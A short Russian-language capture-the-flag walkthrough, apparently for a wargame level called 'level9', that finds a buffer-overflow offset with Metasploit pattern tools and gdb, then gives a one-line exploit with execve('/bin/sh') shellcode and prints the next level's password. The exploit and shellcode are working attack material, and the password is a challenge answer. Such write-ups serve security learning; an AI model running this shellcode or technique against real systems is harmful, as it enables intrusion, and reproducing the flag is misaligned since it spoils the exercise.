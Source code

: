 Вместо 0x00000041 будет адрес на следующий адрес.

Теперь нужен шеллкод и оффсет:

(http://shell-storm.org/shellcode/files/shellcode-752.php)

Найдем оффсет(в кали):
# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

# (gdb) r 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()

# i reg eax
eax            **0x41366441**       1094083649

# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 200 -q 41366441 
[*] Exact match at offset 108

108 офсет
4 адрес(0x804a010) + 21 шеллкод + 83 мусор + 4 адрес (0x804a00c)

# ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "A" * 83 + "\x0c\xa0\04\x08"')

# cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
